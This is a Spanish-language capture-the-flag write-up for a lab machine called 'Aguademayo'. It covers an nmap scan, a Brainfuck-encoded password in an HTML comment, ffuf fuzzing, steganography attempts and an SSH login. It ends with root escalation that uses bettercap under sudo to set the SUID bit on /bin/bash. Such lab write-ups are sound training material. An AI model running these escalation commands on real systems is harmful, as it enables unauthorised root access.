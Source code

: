 # Aguademayo
Fecha: 13/08/2024

Lo primero que hago es nmap, encontrando un servidor http y ssh, ninguno con vulnerabilidades

```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

Miro el html de la página y encuentro un comentario con el siguiente contenido: 

```
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
```

Miro https://www.dcode.fr/es y veo varias posiblidades. Viéndolas, me tiene pinta de que es un `brainfuck`. Uso su herramienta para decodificarlo y me encuentro el siguiente mensaje: `bebeaguaqueessano` 
![](Imágenes/Pasted%20image%2020240813153408.png)

![](Imágenes/Pasted%20image%2020240813153539.png)

Ahora fuzzing de la url, y encuentro que hay existe http://172.17.0.2/images.

```
ffuf -c -recursion -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2/FUZZ  -e .php,.html,.txt,.js -o fuzzing 
```

![](Imágenes/Pasted%20image%2020240813153735.png)

Descargo la imagen que hay e intento aplicar #esteganografía:
- Exiftool: no encuentro nada. 
- Steghid, usando como passphrase la frase encontrada anteriormente, no consigo nada. 

```
steghide --extract -sf imagen.jpg -xf steghide_extract -p bebeaguaqueessano
```

Pruebo algo más fácil: como la imagen se llama agua_ssh, intento conectarme por ssh con ese usuario. Efectivamente, entro a la máquina. 

Haciendo `sudo -l`, veo que puedo ejecutar `bettercap` como root. Lo hago, y veo que hay un comando que me deja ejecutar otros: 
![](Imágenes/Pasted%20image%2020240813155119.png)

Hago `! chmod +s /bin/bash` para setear el bit SETUID de /bin/bash. De esta forma, cuando haga sudo `/bin/bash -p` me quedaré con privilegios de root

![](Imágenes/Pasted%20image%2020240813155358.png)


# Amor
Fecha: 12/08/2024
